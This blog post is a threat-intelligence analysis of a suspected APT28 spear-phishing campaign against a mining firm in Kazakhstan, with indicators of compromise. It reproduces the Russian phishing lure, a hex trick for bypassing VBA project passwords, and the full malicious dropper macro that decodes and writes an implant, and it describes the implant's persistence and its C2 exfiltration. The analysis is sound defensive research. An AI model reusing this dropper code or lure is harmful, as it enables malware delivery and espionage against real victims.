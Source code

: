```yaml
---
layout: post
title:  "10/24/2019 - APT28: Targeted attacks against mining corporations in Kazakhstan"
date:   2019-10-24 00:00:00 -0700
categories: tech
author: MELTX0R
---
```

<center><img src="{{site.baseurl}}/assets/images/apt28Banner.jpg" style="max-width:100%;max-height:100%;"></center>

&nbsp;

## Summary

[APT28](https://attack.mitre.org/groups/G0007/) (also commonly known as FancyBear, STRONTIUM, Sednit, Sofacy, and more) is a threat group that has been attributed to Russia's Main Intelligence Directorate of the Russian General Staff by a July 2018 U.S. Department of Justice indictment. The group has been regarded as being active since at least 2004, and is espionage motivated. It's targets have included the private sector, military, and governments across the world. In this post, I will review a campaign that I believe to have been conducted by APT28.

&nbsp;

## Analysis


While performing research, I came across an interesting document titled *"gorodpavlodar.doc"*. This document was an attachment within an equally as interesting email - this email was sent to multiple individuals who, as far as my research indicates, work for a large mining corporation with operations located in Kazakhstan. The email purports to be sent from the "OFFICIAL RESOURCE OF THE CITY OF PAVLODAR", but is actually sent by the address *"pavlodar.news@bk.ru"*. Pavlodar is a city in northeastern Kazakhstan and the capital of the Pavlodar Region. The original email and translation are listed below, which prompts the recipient of the email to review the attached document.

&nbsp;


*ORIGINAL (RUSSIAN):*
{% highlight text %}

From: ОФИЦИАЛЬНЫЙ РЕСУРС ГОРОДА ПАВЛОДАР [pavlodar.news@bk.ru]
Subject: ГРАФИК ПОДКЛЮЧЕНИЯ ВАШЕГО ЖИЛОГО ДОМА К ГОРЯЧЕМУ ВОДОСНАБЖЕНИЮ

На сегодняшний день без горячего водоснабжения остаются 240 многоэтажных жилых домов,

передаёт корреспондент pavlodarnews.kz.

С 13 по 19 мая ТОО «Павлодарские тепловые сети» проводило гидравлические испытания на

инженерных сетях теплоснабжения в северной части города. Было выявлено 84 повреждения, в

связи с чем на сегодняшний день без ГВС остаются 240 многоэтажных жилых домов.

С графиком подключения жилых домов к горячему водоснабжению вы можете ознакомится во

вложении, прикрепленному к письму.

________________________________

ОФИЦИАЛЬНЫЙ ИНТЕРНЕТ-РЕСУРС АКИМАТА ГОРОДА ПАВЛОДАР
{% endhighlight %}


&nbsp;


*TRANSLATION:*
{% highlight text %}
From: OFFICIAL RESOURCE OF PAVLODAR CITY [pavlodar.news@bk.ru]
Subject: SCHEDULE OF CONNECTING YOUR RESIDENTIAL HOUSE TO HOT WATER SUPPLY

To date, 240 multi-storey residential buildings remain without hot water,

reports correspondent pavlodarnews.kz.

From May 13 to 19, Pavlodar Heating Networks LLP conducted hydraulic tests on

heat supply engineering networks in the northern part of the city. 84 injuries were identified, in

In connection with this, 240 multi-storey residential buildings remain without hot water supply.

You can familiarize yourself with the schedule for connecting residential buildings to hot water in

attachment attached to the letter.

________________________________

OFFICIAL INTERNET RESOURCE OF AKIMAT CITY PAVLODAR
{% endhighlight %}



&nbsp;



The attached document also contained text written in Russian, which translated roughly to *"Schedule of connecting your residential house to hot water supply"* and purported to be from the *"Official Internet Resource of Akimat City Pavlodar"*. The document appeared to be a form for the recipients to fill out with their address, date of water elimination, and reason for lack of hot water. It also prompts the recipient to enable Editing/Content to view the "protected" document.

&nbsp;


<center><img src="{{site.baseurl}}/assets/images/APT28_DOC_LURE_10242019.png" style="max-width:100%;max-height:100%;"></center>
<span style="font-size:small;"> Shown above: Suspected APT28 Lure "gorodpavlodar.doc"</span>

&nbsp;


Opening the Visual Basic console via the developer tab in Word reveals a password protected project that would be run if content were enabled. To bypass this password restriction, I opened the document within a Hex editor and searched for the string "DPB=" which contains the VBA password, and changed it to "DP*x*=". Opening the project following this causes Word to throw multiple errors regarding the invalid key (DPx), but allows me to bypass the password restriction. This allows me to view the contents of the project, displayed below, which looks to be a UserForm containing quite a lot of data in two of the input boxes, in addition to some labels.

&nbsp;


<center><img src="{{site.baseurl}}/assets/images/APT28_VBAPROJECT_10242019.png" style="max-width:100%;max-height:100%;"></center>
<span style="font-size:small;"> Shown above: Suspected APT28 Lure VBA Project</span>

&nbsp;


If I extract the embedded macro, I can see that it essentially does two things - create two files (*graphic.doc* and *libssl.exe*) from the code embedded within the VBA project, and drops those files in the *"C:\Users\\[username]\AppData\Roaming\"* directory.


&nbsp;


{% highlight visualbasic %}
Private Sub Document_Open()
On Error Resume Next
Dim ds As String: ds = Environ("APPDATA") & "\graphic.doc"
Dim dd As String: dd = Environ("APPDATA") & tyihkcjfghkvb.dvxdcxxv.Caption & tyihkcjfghkvb.Label1.Caption & tyihkcjfghkvb.Label2.Caption
vbnbnm dd, drgvfdhre(tyihkcjfghkvb.dxvgfchftbxfh.Value)
vbnbnm ds, drgvfdhre(tyihkcjfghkvb.Text.Value)
Set qw = CreateObject("Word.Application")
qw.Visible = True
Set ww = qw.Documents.Open(ds)
Application.Quit SaveChanges:=wdDoNotSaveChanges
End Sub

Private Function drgvfdhre(tyruyt)
  Dim fghfhggjj, asddf
  Set fghfhggjj = CreateObject("Microsoft.XMLDOM")
  Set asddf = fghfhggjj.createElement("tmp")
  asddf.dataType = "bin.base64"
  asddf.Text = tyruyt
  drgvfdhre = asddf.nodeTypedValue
End Function

Private Sub vbnbnm(tgbyh, edcrf)
  Dim qsxx
  Set qsxx = CreateObject("ADODB.Stream")
  qsxx.Type = 1
  qsxx.Open
  qsxx.Write edcrf
  qsxx.SaveToFile tgbyh, 2
End Sub
{% endhighlight %}
<span style="font-size:small;"> Shown above: Macro within gorodpavlodar.doc  </span>

&nbsp;


Following execution of the macro, the original document is deleted and the secondary document *"graphic.doc"* is opened. This document appears to be a "completed" version of the form contained within the original document, and also contains an embedded macro that executes the aforementioned executable *"libssl.exe"*.

&nbsp;


<center><img src="{{site.baseurl}}/assets/images/APT28_DOC_GRAPHICDOC_10242019.png" style="max-width:100%;max-height:100%;"></center>
<span style="font-size:small;"> Shown above: graphic.doc </span>


&nbsp;


Following execution of *"libssl.exe"*, it will modify the registry to maintain persistence *(HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run)*. It will then initiate Command & Control communications to two hard-coded URL's via HTTP POST requests - *www.gorodpavlodar.kz/modules/Contact/Includes/1c.php* and *www.gorodpavlodar.kz/modules/Contact/Includes/2c.php*, along with a hard-coded User-Agent string *"Mozilla/5.0 (Windows NT 10.0; Win64; x64)"*. The information POST'd includes URL encoded host information - such as a unique ID, drive information, hostname, OS, username, bios, date, process listing, and more. In the past, these POST requests would receive binary data in the server responses, but they are now being met with 404 HTTP responses.


&nbsp;


<center><img src="{{site.baseurl}}/assets/images/APT28_ZEBROCY_C2PCAP_10242019.png" style="max-width:100%;max-height:100%;"></center>
<span style="font-size:small;"> Shown above: Suspected Zebrocy Implant C2 network capture</span>

&nbsp;


While I will leave the in-depth malware analysis to those more adept, the observed activity related to the binary up to this point is very reminiscent of APT28's "Zebrocy" implant. Furthermore, static analysis of the binary reveals numerous similarities to other documented Zebrocy samples - particularly the one documented [here](https://www.vkremez.com/2019/01/lets-learn-overanalyzing-one-of-latest.html) by *Vitali Kremez*. While this isn't conclusive evidence that APT28 is responsible for this sample, the similarities between it and other confirmed Zebrocy implants, in addition to the fact that Kazakhstan has historically been targeted by APT28, is quite suspect. Regardless, it was an interesting sample to review and gives insight into potential economic espionage activities.


&nbsp;

## Indicators

|Indicator|	Type	|Description|
|27e9247d28598207794424eeb5ea4b1b|MD5|libssl.exe - Suspected Zebrocy Implant|
|a863c2944581bc734619bf8d6ab1aef8|MD5|gorodpavlodar.doc - Suspected Zebrocy dropper document|
|57c2b46c7f2ad9aba80e4b6248f9367a|MD5|graphic.doc|
|/modules/Contact/Includes/1c.php|URI|Suspected Zebrocy Implant C2 URI Pattern|
|/modules/Contact/Includes/2c.php|URI|Suspected Zebrocy Implant C2 URI Pattern|
|pavlodar.news@bk.ru|Email Address | Email Address used in suspected APT28 campaign|




&nbsp;

## References/Further Reading

1. https://www.vkremez.com/2019/01/lets-learn-overanalyzing-one-of-latest.html
2. https://attack.mitre.org/groups/G0007/
